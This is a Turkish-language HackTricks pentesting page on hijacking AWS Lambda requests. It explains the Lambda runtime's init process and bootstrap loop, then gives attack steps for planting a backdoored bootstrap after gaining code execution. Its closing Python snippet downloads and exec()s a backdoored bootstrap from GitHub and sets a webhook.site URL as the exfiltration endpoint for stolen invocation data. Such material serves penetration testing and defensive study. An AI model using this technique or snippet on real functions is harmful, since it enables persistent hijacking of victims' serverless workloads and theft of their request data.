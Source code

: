# AWS - Lambda İsteklerini Çal

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Akışı

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **init** sürecine **çağrılar** gönderen konteyner dışındaki bir süreçtir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkaran **9001** numaralı portta dinler:
- **`/2018-06-01/runtime/invocation/next`** – bir sonraki çağrı olayını al
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – çağrı için işleyici yanıtını döndür
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init sürecinden çağrıları alan bir döngüye sahiptir ve bunları işlemek için kullanıcı kodunu çağırır (**`/next`**).
4. Son olarak, **bootstrap.py** init'e **yanıtı** gönderir.

Bootstrap'ın kullanıcı kodunu bir modül olarak yüklediğini unutmayın, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütmesi aslında bu süreçte gerçekleşmektedir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunun, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci çalıştırmasını sağlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için **init süreciyle** **iletişim kurmaya** başlayacakken, **meşru** bootstrap **tuzağa düşmüş** olarak kötü niyetli olanı çalıştıracak, böylece init sürecine istek istemeyecek.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Böylece saldırgan:

- **Mevcut çağrının sahte bir sonucunu init sürecine gönderebilir**, böylece init bootstrap sürecinin daha fazla çağrı beklediğini düşünebilir.
- **`/${invoke-id}/response`** adresine bir istek gönderilmelidir.
- Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak elde edilebilir (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`** adresine istekte bulunarak elde edilebilir (burada [önerildiği gibi](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Bir sonraki çağrıları yönetecek kötü niyetli bir **`boostrap.py`** çalıştırın.
- Gizlilik amacıyla, lambda çağrı parametrelerini saldırganın kontrolündeki bir C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
- Bu saldırı için, **`bootstrap.py`**'nin orijinal kodunu sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) üzerinden almak, kötü niyetli kodu eklemek ve mevcut lambda çağrısından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** açığı bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin, [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py)).
3. **Kötü niyetli bootstrap'ı** **çalıştırın**.

Bu eylemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher) adresini kontrol edin.

## Referanslar

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
